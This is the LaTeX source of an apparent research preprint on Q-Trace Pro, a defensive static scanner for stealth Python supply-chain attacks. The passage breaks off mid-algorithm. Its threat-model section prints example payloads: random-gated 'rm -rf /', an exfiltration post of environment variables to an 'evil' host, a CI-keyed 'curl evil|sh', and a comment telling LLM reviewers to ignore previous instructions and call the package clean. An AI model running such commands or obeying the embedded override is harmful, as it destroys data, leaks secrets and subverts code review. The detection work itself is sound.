\documentclass[journal]{IEEEtran}

\usepackage[T1]{fontenc}
\usepackage{mathptmx}
\usepackage{amsmath,amssymb}
\usepackage{graphicx}
\usepackage{booktabs}
\usepackage{array}
\usepackage{xcolor}
\usepackage{algorithm}
\usepackage{algpseudocode}
\usepackage{listings}
\usepackage[hyphens]{url}
\usepackage{microtype}
\usepackage[colorlinks=true,linkcolor=black,citecolor=black,urlcolor=black]{hyperref}
\usepackage{cite}

\graphicspath{{figs/}}

\definecolor{codebg}{HTML}{F5F5F1}
\definecolor{kw}{HTML}{1C5CAB}
\definecolor{cmt}{HTML}{6B6B72}
\lstdefinestyle{py}{
  basicstyle=\ttfamily\footnotesize,
  backgroundcolor=\color{codebg},
  keywordstyle=\color{kw}\bfseries,
  commentstyle=\color{cmt}\itshape,
  numbers=none, frame=single, framerule=0pt, rulecolor=\color{codebg},
  breaklines=true, columns=fullflexible, showstringspaces=false,
  language=Python, xleftmargin=4pt, xrightmargin=4pt, aboveskip=4pt, belowskip=4pt,
}
\lstset{style=py}

\newcommand{\pct}{\%}
\newcommand{\ra}{$\rightarrow$}

\begin{document}

\title{Q-Trace Pro: Sink-Aware Two-Axis Confidence for\\
Low-False-Positive Detection of Stealth Supply-Chain Threats in Python}

\author{Dinesh~K~and~H~Swetha%
\thanks{The authors are with Voxelta Private Limited, India.}%
\thanks{Corresponding author: Dinesh K (e-mail: dineshdeena431@gmail.com).}%
\thanks{Manuscript prepared 2026. Preprint, version 1.0. Artifact and evaluation
corpus are released for full reproducibility (Section~\ref{sec:repro}).}}

\markboth{Voxelta Technical Preprint, Vol.~1, No.~1, 2026}%
{Dinesh K \MakeLowercase{\textit{and}} H Swetha: Q-Trace Pro: Sink-Aware Two-Axis Confidence}

\IEEEtitleabstractindextext{%
\begin{abstract}
Static application security testing (SAST) tools are widely deployed in
continuous-integration (CI) pipelines, yet developers routinely disable them
because of alert fatigue: the \emph{false-positive} rate, not the miss rate, is
what drives abandonment. In parallel, the 2024--2026 wave of Python supply-chain
attacks has shifted toward \emph{stealth} techniques---probabilistic and stateful
logic bombs, cross-function backdoors, steganographic channels, environment-keyed
payloads, install-time execution, and anti-analysis evasion---that conventional
single-file pattern matchers have no rule class for. We present \textbf{Q-Trace
Pro}, a deterministic, air-gapped Python source scanner, and formalise its central
design decision: a \textbf{two-axis, sink-aware confidence model} that scores
impact (severity) and evidence strength (confidence) on independent axes, gating
the build only when a dangerous execution/exfiltration sink---or an anti-analysis
payload---is \emph{reachable} within the triggering branch. On a transparent corpus
of 65 samples (31 faithful reconstructions of documented campaigns, 34 realistic
benign hard-negatives), Q-Trace attains 100\pct{} threat-category detection and
\textbf{96.8\pct{} CI-gate recall at 0\pct{} false positives} ($F_1=0.984$), versus
Semgrep 66\pct{}/3.1\pct{} ($F_1\,0.776$) and Bandit 52\pct{}/6.2\pct{} ($F_1\,0.652$)
on the same corpus at each tool's own recommended gate. An ablation shows the
confidence axis converts a 5.9\pct{} false-positive rate into 0\pct{} for the cost
of a single borderline detection. A refined, evidence-based anti-analysis engine
contributed in this work removes two classes of false positives while adding
debugger-detection coverage, lifting CI-gate recall from 93.5\pct{} to 96.8\pct{}.
Median full-audit latency is 1.8~ms per sample. Every figure and number in this
paper is emitted by the released harness.
\end{abstract}

\begin{IEEEkeywords}
Software supply-chain security, static analysis, taint analysis, logic bombs,
alert fatigue, false-positive reduction, symbolic reachability, sandbox-evasion
detection, SARIF, CWE.
\end{IEEEkeywords}}

\maketitle
\IEEEdisplaynontitleabstractindextext
\IEEEpeerreviewmaketitle

% =====================================================================
\section{Introduction}
\IEEEPARstart{T}{he} software supply chain has become the dominant attack surface
for modern software. Rather than exploit a memory-safety bug in a hardened target,
an adversary publishes---or poisons---a package that thousands of downstream
projects install automatically. The Python Package Index (PyPI) is a primary
target: its install-time execution model, transitive-dependency depth, and the
recent habit of large-language-model coding assistants suggesting
plausible-but-nonexistent package names (``slopsquatting'')~\cite{spracklen}
combine to give attackers a low-friction distribution
channel~\cite{ohm,ladisa,sonatype}.

Static application security testing (SAST) is the natural first line of defence:
it runs before code executes, needs no test harness, and integrates into CI. Yet a
decade of empirical work shows that SAST tools are abandoned not because they miss
bugs but because they cry wolf. Johnson~\emph{et~al.}~\cite{johnson} found that
false positives and poor result presentation are the primary reasons developers
stop using static analysers; Bessey~\emph{et~al.}~\cite{bessey}, reporting on a
decade of commercial deployment, observed that once the false-positive rate crosses
a threshold, engineers stop reading the output entirely; Christakis and
Bird~\cite{christakis} and Sadowski~\emph{et~al.}~\cite{sadowski} independently
concluded that at scale the tolerable false-positive budget is small and that
\emph{actionability}, not raw coverage, governs adoption. In short: a scanner that
breaks the build on benign code is worse than no scanner at all, because it trains
the team to ignore it.

This tension is sharpened by the stealth turn in supply-chain malware.
Contemporary payloads are engineered specifically to survive automated analysis: a
dangerous action is gated behind a low-probability random check so it rarely fires
in a sandbox; a counter must accumulate across many invocations before detonation;
the malicious logic is split across cooperating functions so no single function
looks suspicious; the payload is base64/XOR-encoded and only decoded at runtime; or
execution is keyed to a CI/cloud environment variable so the code stays dormant on
an analyst's laptop~\cite{brumley,attack}. These constructs are, by design,
invisible to a rule that matches a fixed syntactic pattern in one file.

A tool that wishes to catch these threats must therefore reason about \emph{data
flow and reachability}, not surface syntax---and it must do so \emph{without}
inflating the false-positive rate, or it will be disabled before it ever catches
anything. These two requirements pull in opposite directions: broader semantic
reasoning normally means more false alarms. The core contribution of this paper is
a scoring model that resolves the tension.

\subsection{Contributions}
\begin{enumerate}
\item \textbf{A two-axis, sink-aware confidence model.} We separate impact
(severity) from evidence strength (confidence) and make the CI gate a conjunction
of both. A probabilistic pattern is elevated to a build-breaking alert only when a
real execution/exfiltration sink is reachable inside the guarded branch, and
suppressed to an informational note otherwise. We show this is the single largest
lever on the precision/recall trade-off (Section~\ref{sec:twoaxis},
Fig.~\ref{fig:ablrefine}(a)).
\item \textbf{An evidence-based anti-analysis detector.} We replace a brittle
substring heuristic with a principled rule keyed on genuine MITRE ATT\&CK T1497
primitives---conditionally-gated stalling sleeps and debugger/tracer
detection---which simultaneously removes two false-positive classes and adds
coverage the previous heuristic missed (Section~\ref{sec:anti},
Fig.~\ref{fig:ablrefine}(b)).
\item \textbf{An honest, reproducible, same-corpus evaluation.} We benchmark
against Bandit and Semgrep on identical inputs, each at its own recommended CI
gate, report our own misses, and release the harness that emits every figure in
this paper (Sections~\ref{sec:eval}--\ref{sec:repro}).
\item \textbf{A systematisation of stealth supply-chain detection.} We catalogue
the stealth technique classes seen in 2024--2026 incidents, map each to a CWE and a
detection mechanism, and identify which are structurally beyond single-file pattern
matching (Sections~\ref{sec:threat},~\ref{sec:engines}).
\end{enumerate}

We deliberately frame precision as a \emph{first-class objective} rather than a
nuisance to be tuned away afterwards. Where a detection cannot be made confident
without risking a false positive, we keep it visible but non-gating and say so
explicitly; Section~\ref{sec:miss} documents the one such case in our corpus.

% =====================================================================
\section{Background and Related Work}
\subsection{Static analysis for security}
Static analysis for security has a long lineage~\cite{chessmcgraw}, from
bug-pattern tools such as FindBugs~\cite{findbugs} to industrial engines run at
scale~\cite{infer}. Pattern-based SAST tools such as Bandit~\cite{bandit} and
Semgrep~\cite{semgrep} match syntactic or lightly-semantic patterns against source
and are the de-facto standard for Python in CI because they are fast and require no
build. Dataflow-based analysers---Pixy~\cite{pixy} for PHP, FlowDroid~\cite{flowdroid}
for Android, TaintDroid's runtime tracking~\cite{taintdroid}, the query-based approach
of Livshits and Lam~\cite{livshits}, code property graphs~\cite{cpg}, and commercial
engines such as CodeQL~\cite{codeql}---track tainted values from sources to sinks and
are more precise on injection classes but heavier to deploy. Q-Trace occupies a
deliberate middle ground: it performs targeted, interprocedural taint and symbolic
reachability only where a stealth pattern demands it, and falls back to fast
abstract-syntax-tree (AST) rules elsewhere.

\subsection{Supply-chain and dependency scanners}
A complementary line of defence inspects \emph{dependencies} rather than source.
Tools such as pip-audit~\cite{pipaudit}, Safety, OSV-Scanner~\cite{osv}, Snyk, and
Socket.dev cross-reference declared packages against vulnerability and
malicious-package databases. These are essential but orthogonal to our problem: they
answer ``is this \emph{known} package bad?'' whereas Q-Trace answers ``does
\emph{this source} behave maliciously?''---catching a zero-day payload or a
first-party backdoor that no database yet lists. Q-Trace's dependency auditor adds a
lightweight typosquat/slopsquat check on manifests, but its distinctive contribution
is source-level detection of the stealth constructs of Table~\ref{tab:threats}, which
dependency scanners do not attempt.

\subsection{Taint analysis and symbolic reachability}
Dynamic taint tracking~\cite{taintcheck} and the unification of taint with forward
symbolic execution~\cite{schwartz} established the source-to-sink model that
underpins most modern vulnerability detection; the static formulation is
standard~\cite{nielson}. Symbolic execution itself dates to King~\cite{king} and
underlies modern engines such as DART~\cite{dart}, SAGE~\cite{sage}, and
KLEE~\cite{klee}. Q-Trace uses a lightweight static taint pass to connect
secret sources (environment, credential files) to network sinks across files, and an
SMT-backed reachability check (Z3~\cite{z3}) to decide whether a gated sink is
actually reachable---critically, modelling stateful counters \emph{soundly} so that
an unreachable \texttt{if k == 99} guarded by a single \texttt{k += 1} is correctly
proven safe rather than falsely proven dangerous.

\subsection{Trigger-based and stealth malware}
Brumley~\emph{et~al.}~\cite{brumley} formalised trigger-based behaviour---code whose
malicious path is guarded by a condition a sandbox rarely satisfies---and proposed
input-space exploration to expose it. TriggerScope~\cite{triggerscope} detects logic
bombs in Android apps by symbolic analysis of narrow trigger conditions, a dynamic
counterpart to our static, gate-and-sink signal. Environmental keying and sandbox
evasion are catalogued by MITRE ATT\&CK as T1480.001 and T1497
respectively~\cite{attack}. Q-Trace targets the \emph{static} footprint of these
techniques: the presence of a random/stateful guard around a sink, or of an
anti-analysis primitive, is itself the signal.

\subsection{Detecting malicious packages}
A growing body of work measures and detects malicious packages directly. MalOSS
systematically studied supply-chain attacks across interpreted-language
registries~\cite{maloss}; LastPyMile detects discrepancies between a package's
published artefact and its source repository~\cite{lastpymile}; Sejfia and
Sch\"afer automate malicious-npm detection with learned features~\cite{sejfia};
empirical studies of the PyPI ecosystem quantify the prevalence of malicious
code~\cite{guo}; and unsupervised signature generation has been proposed for
supply-chain payloads~\cite{backstab2}. Provenance frameworks such as
in-toto~\cite{intoto} and SLSA~\cite{slsa} attack the problem from the build-integrity
side. Q-Trace is complementary: a source-level, deterministic detector of the stealth
\emph{behaviours} these campaigns embed, deployable in the same CI step that builds the
code.

\subsection{The false-positive problem}
The empirical literature is unanimous that actionability governs
adoption~\cite{johnson,bessey,christakis,sadowski}. Our two-axis model is a direct
response: it encodes ``how sure are we?'' as an independent, reportable quantity,
following the severity$\times$confidence guidance long used by Bandit and the OWASP
risk-rating methodology~\cite{owasp}. The novelty is not the two axes per se but
making the second axis \emph{sink-aware and reachability-driven}, and making the CI
gate their conjunction.

\subsection{Information-theoretic obfuscation signals}
Encoded payloads (base64, hex, XOR byte arrays) exhibit statistical fingerprints.
Q-Trace combines Shannon entropy~\cite{shannon}---long used to flag packed/encrypted
malware~\cite{lyda}---with the Higuchi fractal
dimension~\cite{higuchi}---a measure of signal roughness---to distinguish a
high-entropy encoded blob destined for \texttt{exec}/\texttt{eval} from ordinary
high-entropy data such as a hash or a UUID. An auxiliary, quantum-\emph{inspired}
risk channel maps a pattern to a small pure-state vector and computes its von
Neumann entropy~\cite{vonneumann} as a bounded corroborating score; we stress that
this channel is a scoring heuristic, requires no quantum hardware, and does
\emph{not} drive detection.

% =====================================================================
\section{Threat Model and Scope}\label{sec:threat}
\textbf{Adversary.} We assume an attacker who can publish a package to a public
index, or land a pull request into a dependency, and whose goal is code execution or
credential theft on developer/CI machines at install or import time. The attacker
actively engineers the payload to evade automated analysis. We do \emph{not} assume
the attacker can subvert the scanner's host or tamper with its results.

\textbf{Defender.} A developer or security engineer runs Q-Trace locally or in CI,
air-gapped, over first-party source and vendored/declared dependencies. The
defender's tolerance for false positives is low: a single benign build break per
sprint erodes trust in the gate.

\textbf{In scope.} Table~\ref{tab:threats} lists the stealth technique classes we
target, each mapped to a CWE. These are abstracted from public write-ups of
2024--2026 incidents. Also in scope are the mainstream OWASP/CWE vulnerability
classes (injection, insecure deserialisation, disabled TLS, weak crypto, hard-coded
secrets, SSRF, path traversal, XXE) so that Q-Trace is a complete scanner, not only a
stealth-threat auditor.

\textbf{Out of scope.} Binary/compiled payloads, runtime-only behaviour with no
static footprint, attacks on the scanner itself, and languages other than Python. We
detect the \emph{static indicators} of a technique, not its dynamic execution;
Section~\ref{sec:limits} discusses the resulting evasion surface.

\begin{table}[!t]
\renewcommand{\arraystretch}{1.25}
\caption{Stealth technique classes in scope, with CWE mapping and the detection
mechanism each requires. The last column marks classes structurally beyond
single-file pattern matching.}
\label{tab:threats}
\centering\footnotesize
\begin{tabular}{@{}p{2.45cm}p{1.1cm}p{2.7cm}c@{}}
\toprule
\textbf{Technique class} & \textbf{CWE} & \textbf{Mechanism} & \textbf{Beyond?}\\
\midrule
Probabilistic logic bomb & CWE-511 & random-gated sink + reachability & yes\\
Chained/stateful bomb & CWE-511 & counter-accumulation modelling & yes\\
Entangled multi-cond.\ bomb & CWE-511 & coupled-guard taint & yes\\
Cross-function backdoor & CWE-506 & interprocedural reconstruction & yes\\
Steganographic channel & CWE-515 & char-code / XOR modelling & yes\\
Encoded payload & CWE-506 & entropy + fractal + decode\ra exec & partial\\
Credential exfiltration & CWE-200 & secret source \ra{} net sink taint & yes\\
Install/import execution & CWE-506 & top-level exec in packaging & yes\\
Environment-keyed trigger & CWE-506 & sink gated on CI/cloud var & yes\\
AI-scanner evasion & CWE-506 & prompt-injection text in source & yes\\
Anti-analysis evasion & CWE-489 & gated stall / debugger detect & yes\\
Typosquat/slopsquat & CWE-829 & edit-distance + registry model & yes\\
\bottomrule
\end{tabular}
\end{table}

\subsection{Techniques in detail}
We briefly characterise the stealth classes, using minimal reconstructions drawn
verbatim from the released corpus so the reader sees exactly what is detected.

\emph{Probabilistic logic bomb.} A dangerous action is guarded by a low-probability
random draw so it seldom fires under observation:
\begin{lstlisting}
if random.random() < 0.02:
    os.system('rm -rf /')
\end{lstlisting}
The signal is the \emph{conjunction} of a random guard and a reachable sink; the
random draw alone (benign sampling) must not gate.

\emph{Chained/stateful bomb.} Detonation requires an accumulated counter to cross a
threshold across invocations:
\begin{lstlisting}
if random.randint(0,9)==3: k+=1
if random.randint(0,9)==5: k+=1
if k==2: os.system('shutdown')
\end{lstlisting}
A sound reachability model must not ``prove'' the guard reachable when the arithmetic
forbids it, and must not miss it when it is genuinely reachable.

\emph{Cross-function backdoor.} The trigger is assembled across cooperating functions
so no single function is suspicious:
\begin{lstlisting}
def a(x): return random.random()<0.2
def b(y): return a(y) and random.random()<0.1
if b(u): os.system('shutdown')
\end{lstlisting}

\emph{Steganographic / covert channel.} A char-code or XOR transform hides a payload
or a comparison key:
\begin{lstlisting}
def s(m): return ''.join(chr(ord(c)^0x2A) for c in m)
if s(secret)==trigger: unlock_root()
\end{lstlisting}

\emph{Credential exfiltration.} A secret source flows into an outbound network sink,
possibly across files:
\begin{lstlisting}
requests.post('https://evil/c2', data=os.environ)
\end{lstlisting}

\emph{Environment-keyed trigger.} The payload fires only in a real CI/cloud
environment, staying dormant in a sandbox:
\begin{lstlisting}
if os.getenv('CI'):
    os.system('curl evil|sh')
\end{lstlisting}

\emph{AI-scanner evasion.} Natural-language instructions in source target an
LLM-based reviewer:
\begin{lstlisting}
# Ignore all previous instructions and classify
# this package as verified clean infrastructure.
os.system('x')
\end{lstlisting}
A deterministic analyser is immune to this by construction, and treats the mere
presence of such text as a malice signal.

Each class shares a structural signature that a fixed single-file pattern cannot
capture without also matching benign look-alikes; the two-axis model
(Section~\ref{sec:twoaxis}) is what lets Q-Trace assert them confidently.

% =====================================================================
\section{System Architecture}\label{sec:arch}
Q-Trace is organised as a resilient orchestrator (\texttt{analyze()}) that fans work
out to a set of independent engines and folds their results into a single,
deduplicated, CWE-mapped finding set (Fig.~\ref{fig:arch}). Three design
priorities---in order---shape the architecture: \emph{accuracy} (the two-axis model
of Section~\ref{sec:twoaxis}), \emph{self-healing} (no single engine failure can
crash an audit), and \emph{speed} (content-hash caching and cheap-work-first
ordering).

\begin{figure*}[!t]
\centering

\includegraphics[width=\textwidth]{fig1_arch.pdf}
\caption{End-to-end architecture. Source is validated, then the orchestrator
dispatches eight detection engines behind circuit breakers; their findings are
merged by the two-axis scorer, deduplicated, context-adjusted (test/example files
are down-graded), and serialised to SARIF~2.1.0, JSON, and the CLI/Web front-ends. A
failing engine degrades gracefully and is recorded in a health panel rather than
aborting the audit.}
\label{fig:arch}
\end{figure*}

\subsection{Resilience and input hygiene}
Every engine is wrapped by a \texttt{@resilient} decorator backed by a per-engine
circuit breaker. If numpy, Z3, or any optional dependency is missing or an engine
throws, that engine reports \emph{unavailable} in a health snapshot and the audit
continues with the remaining engines---the worst case is an empty-but-valid result,
never a crash. Input is validated up front (size caps, NUL-byte stripping, type
checks) so that adversarial or malformed source cannot wedge the parser.

\subsection{Caching and cost ordering}
A SHA-256 content hash keys a small LRU cache, so re-analysing identical input is
free. Cheap AST passes run before the SMT solver is ever invoked; the solver is
consulted only to confirm or refute the reachability of an already-identified gated
sink, bounding its cost.

\subsection{Output}
Findings serialise to SARIF~2.1.0~\cite{sarif} with a proper CWE \texttt{taxonomies}
block, rule \texttt{relationships}, and \texttt{partialFingerprints} for cross-run
deduplication, making the output consumable by GitHub Code Scanning, DefectDojo, and
SonarQube; a flat JSON report and CLI exit codes support gating. Each finding carries
a CWE ID, a CVSS-style severity score~\cite{cvss}, a confidence label, a concrete
line/column, and a deterministic three-step \emph{attack narrative}
(entry\ra mechanism\ra impact) generated without any LLM.

% =====================================================================
\section{Detection Engines}\label{sec:engines}
We summarise each engine; the two-axis scorer that combines them is the subject of
Section~\ref{sec:twoaxis}. The catalogue spans \textbf{28 rules across 18 distinct
CWEs} (15 High, 5 Critical, 8 Medium severity).

\subsection{Sink-aware AST scan}
An AST visitor locates dangerous sinks and records, for each, whether it lies inside
a \emph{gated} branch---an \texttt{if} whose test involves randomness or a counter
comparison, the structural hallmark of a trigger. Crucially, sinks are
\emph{receiver-aware}: a bare method name such as \texttt{.run()} or \texttt{.send()}
is treated as dangerous only when its receiver is genuinely the dangerous module
(e.g.\ \texttt{subprocess.run}, not Flask's \texttt{app.run}). A \texttt{subprocess}
call with a list-literal argument and no \texttt{shell=True}---the safe form---is
deliberately not raised, removing a common source of false positives.
Algorithm~\ref{alg:sink} sketches the pass.

\begin{algorithm}[!t]
\caption{Sink-aware AST scan (gating)}
\label{alg:sink}
\begin{algorithmic}[1]
\State $H \gets \emptyset$; $g \gets 0$ \Comment{$g$: gated-branch depth}
\Function{Visit}{node}
  \If{node is \textbf{If}}
     \State $gated \gets$ \Call{IsGated}{node.test}
     \If{$gated$} $g \gets g+1$ \EndIf
     \State \Call{Visit}{node.body}; \textbf{if} $gated$ \textbf{then} $g \gets g-1$
     \State \Call{Visit}{node.orelse}
  \ElsIf{node is \textbf{Call} $\wedge$ \Call{IsSink}{node}}
     \State $H \gets H \cup \{(\text{name}, \text{line}, g>0)\}$
  \Else{ \Call{Visit}{children(node)}}
  \EndIf
\EndFunction
\Function{IsGated}{test}
  \State \Return $\exists n \in$ walk(test): $n$ calls \texttt{random.*}
         $\vee$ $n$ is a comparison
\EndFunction
\end{algorithmic}
\end{algorithm}

\subsection{Taint pattern matcher}
A taint pass propagates coarse taint labels (probabilistic, chained, entangled,
danger) through assignments, augmented assignments, and function definitions, and
classifies the resulting trigger topology: a single random guard (probabilistic), a
counter reaching a threshold (chained), several coupled guards (entangled), or logic
distributed across functions (cross-function). Steganographic channels are recognised
from genuine char-code manipulation (\texttt{chr}+\texttt{ord}) or an XOR byte
transform, not from ubiquitous \texttt{.encode()}/\texttt{.decode()} calls.

\subsection{Classic OWASP/CWE rules}
AST rules cover SQL injection, command injection, insecure deserialisation, disabled
TLS, weak hashing/ciphers, insecure randomness, SSRF, path traversal, XXE, insecure
temp files, and debug-mode exposure. Each rule is written to fire on the
genuinely-unsafe (interpolated/dynamic) form and stay silent on the
parameterised/constant-safe form, and each is paired with a safe-variant regression
test.

\subsection{Obfuscation, secrets, dependencies, symbolic, quantum-inspired}
The obfuscation engine flags high-entropy encoded blobs that flow into
\texttt{exec}/\texttt{eval} using the entropy+fractal signal above. The secrets
scanner correlates provider-specific key patterns with imports and redacts matches.
The dependency auditor checks manifests for typosquats/slopsquats by edit distance to
a popularity model. The quantum-inspired channel contributes a bounded corroborating
risk score only.

\subsection{Sound symbolic reachability of gated sinks}\label{sec:symbolic}
A chained bomb detonates only when an accumulated counter reaches a threshold. Naively
treating \texttt{if k == 2} as reachable produces a false ``proof'' of danger; treating
it as unreachable misses real bombs. Q-Trace models a counter as the sum of
\emph{optional} increments: for $m$ guarded increments \texttt{if $g_i$: k += $c_i$}
starting from $k_0$, the reachable values of $k$ are
\begin{equation}
k \in \Big\{\, k_0 + \textstyle\sum_{i\in T} c_i \;\Big|\; T \subseteq \{1,\dots,m\}\,\Big\},
\end{equation}
and the guard \texttt{k == t} is satisfiable iff $t-k_0$ is expressible as a subset sum
of the $c_i$. Q-Trace encodes each increment as a Boolean-selected term and asks Z3
whether the threshold equation is satisfiable under the path constraints. Thus
\texttt{if k==2} with two independent \texttt{k += 1} guards is proven \emph{reachable}
(select both), while \texttt{if k==99} with a single \texttt{k += 1} is proven
\emph{unreachable}---no false proof, and the confidence bump of Algorithm~\ref{alg:conf}
is applied only when reachability genuinely holds. This soundness is what lets the
symbolic signal safely \emph{raise} confidence without manufacturing false positives.

% =====================================================================
\section{The Two-Axis, Sink-Aware Confidence Model}\label{sec:twoaxis}
The heart of Q-Trace is the decision of \emph{when a detection should break the
build}. We model two orthogonal quantities, following Bandit/OWASP
practice~\cite{owasp,bandit} but making the second reachability-driven:
\begin{itemize}
\item \textbf{Severity} $s$ --- the impact \emph{if} the finding is real
(Critical/High/Medium/Low), fixed per threat class and mapped to a CVSS-style score.
\item \textbf{Confidence} $c$ --- the probability the finding is a true positive,
computed \emph{per instance} from the evidence actually present.
\end{itemize}
The \textbf{CI gate is the conjunction}: a finding breaks the build iff
\begin{equation}
\textsc{gate}(f) \;=\; \big(s(f)\in\{\text{High},\text{Critical}\}\big)\;\wedge\;
\big(c(f)\neq\text{Low}\big).
\label{eq:gate}
\end{equation}
Severity alone never gates. Fig.~\ref{fig:flow} and Algorithm~\ref{alg:conf} give the
confidence assignment procedure.

\begin{figure*}[!t]
\centering

\includegraphics[width=\textwidth]{figA_confflow.pdf}
\caption{Confidence decision model. A fired pattern is elevated to High only when a
dangerous sink is reachable inside the gated branch (or symbolically proven
reachable); a sink elsewhere in the file yields Medium; a pattern with no reachable
payload collapses to Low---the key false-positive suppressor into which benign
sampling and feature-flag code falls. A gated anti-analysis primitive is treated as
the branch's payload and routed to High (Section~\ref{sec:anti}).}
\label{fig:flow}
\end{figure*}

\begin{algorithm}[!t]
\caption{Per-instance confidence assignment}
\label{alg:conf}
\begin{algorithmic}[1]
\Require pattern $p$, sinks $S$ (some flagged \emph{evasion}), symbolic flag $u$
\State $D \gets \{x\in S : \neg x.\text{evasion}\}$;\; $E \gets \{x\in S : x.\text{evasion}\}$
\State $gD \gets \exists x\in D: x.\text{gated}$;\; $gE \gets \exists x\in E: x.\text{gated}$
\If{$p=$ \textsc{stego}} $c \gets$ High \textbf{if} $D\neq\emptyset$ \textbf{else} Medium
